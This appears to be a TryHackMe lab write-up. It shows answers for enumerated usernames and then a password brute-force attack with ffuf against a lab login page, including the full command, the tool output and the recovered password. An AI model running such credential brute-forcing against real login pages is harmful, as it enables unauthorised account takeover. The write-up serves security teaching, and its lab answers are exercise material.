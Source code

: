 What is the username starting with st*** ? *steve*

What is the username starting with ro**** ? *robert*

### Brute Force 

Using the valid_usernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page (http://10.10.235.218/customers/login).


A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.


When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file.


Bruteforcing with ffuf

           
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.235.218/customers/login -fc 200

        

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

Running the above command will find a single working username and password combination that answers the question below.

```
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ ffuf -w /usr/share/seclists/Usernames/Names/valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.235.218/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.235.218/customers/login
 :: Wordlist         : W1: /usr/share/seclists/Usernames/Names/valid_usernames.txt
 :: Wordlist         : W2: /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 240ms]
    * W2: thunder
```